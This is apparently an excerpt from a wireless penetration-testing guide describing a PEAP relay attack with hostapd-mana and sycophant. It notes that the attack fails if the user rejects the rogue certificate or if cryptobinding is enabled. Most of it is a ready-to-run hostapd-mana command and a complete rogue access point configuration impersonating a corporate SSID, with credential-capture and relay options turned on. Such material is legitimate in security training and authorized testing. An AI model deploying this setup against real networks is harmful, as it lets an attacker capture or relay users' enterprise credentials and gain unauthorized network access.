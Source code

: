 <img src="./images/peap_relay.png" width="700"/>

This attack can fail if :
- User doesn't accept the rogue certificate
- Cryptographic binding (cryptobinding)
  - When cryptobinding is enabled it creates a connection between the two tunnels to ensure that the client that is authenticating against the RADIUS server is the same client that created the initial TLS tunnel to the access point.

Running hostapd-mana
```
hostapd-mana hostapd.conf | grep 'SYCOPHANT\|MANA'
```

hostapd.conf file
```
interface=wlan0
ssid=CorpoSSID
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
enable_sycophant=1
```